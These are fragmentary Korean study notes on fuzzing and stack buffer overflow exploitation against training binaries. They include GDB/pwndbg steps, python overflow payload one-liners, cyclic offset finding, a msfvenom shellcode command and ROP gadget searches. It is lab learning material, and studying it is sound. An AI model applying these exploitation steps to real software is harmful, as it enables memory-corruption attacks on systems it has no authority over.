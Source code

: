 칼리    root / user1.
GDB
퍼징 : 무작위 데이터 입력을 통한 자동화된 소프트웨어 안정성 테스트 기법
예상치 못한 입력을 처리할 때 비정상적인 동작 발생 가능
- 버퍼 오버플로우, 메모리 누수, 크래시 등의 취약점 발생
동작방식
-시스템에 다양한 값을 입력하며 그 결과를 관찰
- 무작위로 생성한 값 or 예상 가능한 패

Fuzzing의 종류 
• Web Fuzzer 
	○ DirBuster, Dirb, wfuzz 
• Networkd Fuzzer
	○ Peach , Sulley 
• File Fuzzer
	○ AFL, Peach

mkdir gdb_extend

find / -name .gdbinit

/usr/local/bin   << file 3개 생성
gdb-peda
gdb-pwndbg
gdb-gef

AFL++
https://www.bordergate.co.uk/fuzzing-with-afl/

saved crashes : 취약점으로 죽은 놈의 개수

shell 코드 : 공격코드 생성, 0x43, 0x4D ....

메모리 구조 
code : 함수의 코드, 정보 , eip
data : 전역변수, 정적변수(static), 상수?
heap : 동적 메모리 할당, 내려오는 방식
stack : 함수 관련(변수, 매개변수, 리턴 어드레스), 버퍼(스텍프레임), 쌓이는 방식 , esp

python -c "print 'A' * 17"  | ./실행파일      code 

지역변수의 위치 파악 >> 동적 분석
file ./stack_chageme   >> 파일의 정보    64bit 는 fastcall 규약만 씀   
checksec ./stack_chageme   >> 보안기법 체크
gdb
info functions
disassemble main
0을 입력받는 주소 : rbp-0x10
locals.buffer : rbp-0x50

modified  = esp+0x5c
buffer = esp+0x1c


ghidra >>> project 생성 >>> i 로 실행파일 import >>> disassmble file >>> export file

./stack_changeme2 $(python2 -c "print 'A' * 64 + '\x62\x59\x6c\x49'")

stack_overwrite    >>> echo $ExploitEducation  >>> 환경변수에 값을 지정 
export ExploitEducation=$(python   ...)

브레이크 포인트
b \*main+84
run >>> cyclic -l qaaa

0x08048424
x/wx $esp+0x5c
cyclic -l 0x61616171    >>> offset을 찾아줌  (오버플로가 일어나는 크)

0x08049182

0x10
0x080483f4
msfvenom -p linux/x86/exec -f python CMD="/usr/bin/uname -a" -v Shellcode

pwn.pause()  >>> gdb-pwndbg >>> attach pid

0x08049182

가젯 >>> ropper
	pop rdi
	ret 
	ropper --file ret2_params64 --search 'pop rdi'   rsi
0x000000000040124b: pop rdi; ret;
0x0000000000401249: pop rsi; pop r15; ret;
스택에 값을 넣기위해서 가젯을 사용함.

-b 로 베드코드를 빼고 0x00/ 0x0d 등

rop chain  

